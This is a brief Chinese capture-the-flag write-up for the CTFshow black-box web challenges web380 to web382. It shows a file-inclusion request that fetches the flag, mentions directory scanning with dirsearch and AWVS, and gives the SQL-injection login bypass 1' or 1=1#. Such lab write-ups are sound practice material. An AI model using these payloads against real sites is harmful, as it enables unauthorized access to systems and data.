 ## CTFSHOW-黑盒测试

### web380

访问page.php，提示：
```php
Notice: Undefined index: id in /var/www/html/page.php on line 16
打开$id.php失败
```

![image-20240918101153122](https://gitee.com/bx33661/image/raw/master/path/image-20240918101153122.png)

```
/page.php?id=flag
```

![image-20250206220554488](https://gitee.com/bx33661/image/raw/master/path/image-20250206220554488.png)

### web381

使用dirsearch没有扫到东西，使用Awvs

![image-20240918103734147](https://gitee.com/bx33661/image/raw/master/path/image-20240918103734147.png)

访问几个可疑目录

![image-20240918103830177](https://gitee.com/bx33661/image/raw/master/path/image-20240918103830177.png)

查看源码

![image-20240918104049278](https://gitee.com/bx33661/image/raw/master/path/image-20240918104049278.png)



### web382

![image-20240918104631465](https://gitee.com/bx33661/image/raw/master/path/image-20240918104631465.png)

万能密码：

```
1' or 1=1#
```

